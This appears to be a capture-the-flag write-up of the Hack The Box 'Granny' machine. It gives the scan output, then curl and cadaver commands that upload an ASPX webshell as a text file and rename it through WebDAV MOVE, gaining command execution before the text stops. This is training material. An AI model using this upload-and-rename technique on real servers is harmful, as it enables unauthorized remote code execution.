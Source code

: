 # HTB - Granny
## OS - Windows 

I want to do this box without using Metasploit, so let's see how it goes!

I started with an nmap scan of Granny whose IP address is 10.10.10.15.

```
$nmap -sC -sV -oN granny.nmap 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-26 15:27 PST
Nmap scan report for 10.10.10.15
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sat, 26 Dec 2020 23:31:09 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.45 seconds

```

This is very similar to Grandpa box, so I ran davtest scan like Grandpa.

```
$davtest -url 10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		10.10.10.15
********************************************************
NOTE	Random string for this session: FTVFUmrC1gdYm
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	pl	FAIL
PUT	jsp	FAIL
PUT	aspx	FAIL
PUT	cgi	FAIL
PUT	html	FAIL
PUT	txt	FAIL
PUT	jhtml	FAIL
PUT	php	FAIL
PUT	cfm	FAIL
PUT	shtml	FAIL
PUT	asp	FAIL

********************************************************
/usr/bin/davtest Summary:

```

I ran Nikto scan and Dirbuster too. Dirbuster showed images folder but it was empty.
```
$nikto -host http://10.10.10.15
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-12-26 15:30:36 (GMT-8)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET

```
The "x-powered-by header: ASP.NET" shows that aspx files may execute on the server. 

I tried to upload an aspx file, but it did not work. Text files worked, but not aspx.

```
curl -X PUT http://10.10.10.15/boxy.txt -d @boxy.txt

└──╼ $curl http://10.10.10.15/boxy.txt
Boxing day!

└──╼ $curl -X PUT http://10.10.10.15/boxy.aspx -d @boxy.txt
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>


```

Learned about a tool called cadaver that's a CLI for webdav on Unix. Also, there are webshells in Parrot in /usr/share/webshells. I am using the aspx one from that folder.

I'll try with cadaver and curl to copy the aspx shell. We can't PUT an aspx file directly due to restricted permissions. But the server allows MOVE webdav method, so we can PUT a text file and then MOVE it to aspx.

With cadaver:
```
$cadaver http://10.10.10.15
dav:/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/> put cmdasp.txt
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> move cmdasp.txt Destination:http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/Destination%3ahttp%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/http%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt cmdasp.aspx
Moving `/cmdasp.txt' to `/cmdasp.aspx':  succeeded.
dav:/> 

```
We can do the same thing with curl too. Once that file is changed to aspx, visiting the web page shows a field to enter a command. 

![Granny ASP Shell](/images/Granny1.png)


When we run whoami there, we see we are "Network Service". Which means, our privileges are very limited. I'll try some other exploit.



